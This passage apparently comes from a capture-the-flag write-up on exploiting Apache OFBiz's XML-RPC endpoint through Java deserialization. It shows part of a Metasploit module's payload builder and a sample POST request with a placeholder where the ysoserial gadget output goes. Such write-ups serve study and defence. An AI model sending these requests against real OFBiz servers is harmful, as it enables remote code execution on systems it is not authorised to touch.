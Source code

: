 ```
              <value>
                <struct>
                  <member>
                    <name>#{rand_text_alphanumeric(8..42)}</name>
                    <value>
                      <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">#{Rex::Text.encode_base64(data)}</serializable>
                    </value>
                  </member>
                </struct>
              </value>
            </param>
          </params>
        </methodCall>
      XML
    )
  end
```

<br>

We can do something like this in requests:
```
POST /webtools/control/xmlrpc HTTP/1.1
Host: localhost:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=6BED6745363C7728AAE4274F77E4B6D2.jvm1; OFBiz.Visitor=10000
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: test/xml
Content-Length: 3145

<?xml version="1.0"?>
<methodCall>
  <methodName>0xdf0xdf</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>0xdf0xdf</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[yso output here]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
